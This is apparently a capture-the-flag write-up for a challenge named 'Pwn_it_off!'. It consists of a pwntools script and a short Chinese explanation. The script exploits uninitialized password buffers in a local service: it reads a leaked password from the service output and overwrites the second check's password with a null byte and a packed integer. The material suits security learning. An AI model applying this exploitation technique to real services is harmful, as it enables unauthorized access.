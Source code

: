 # Pwn_it_off!

```py
from pwn import *
p=remote("127.0.0.1","62045")
while True:
    content=p.recvline()
    if b"[Error]" in content:
        break
    password=content[28:28+15]
p.sendlineafter("ssword.\n",password+b'\x00'+p64(10000)[:-1]) #直接p64多出来了一个字节，所以丢掉最后一个
p.sendlineafter("ssword.\n",'10000')
p.interactive()
```
看完免费提示就懂了，两个检查密码的函数都没有初始化。第一个检查函数的密码是之前beep的内容，第二个检查函数的密码则可以在第一个检查函数里通过输入自己设置。调试看清楚位置关系即可